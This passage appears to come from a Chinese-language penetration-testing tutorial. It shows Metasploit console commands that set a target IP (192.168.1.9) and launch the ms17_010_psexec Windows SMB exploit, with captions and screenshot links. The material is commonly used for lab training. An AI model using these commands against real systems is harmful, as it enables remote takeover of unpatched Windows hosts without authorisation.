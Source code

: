 [![](assets/1701606737-ce6117e7f3146bb43e0ed1978731735d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106234014-c7388378-7cba-1.png)

设置远程目标 IP

```plain
msf6 exploit(windows/smb/ms17_010_psexec) > set rhosts 192.168.1.9
```

查看攻击目标模式

[![](assets/1701606737-c819575d3f167f9e6eda8076b5dab791.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106234136-f81df7a2-7cba-1.png)

攻击

```plain
msf6 exploit(windows/smb/ms17_010_psexec) > run
or
msf6 exploit(windows/smb/ms17_010_psexec) > exploit
```
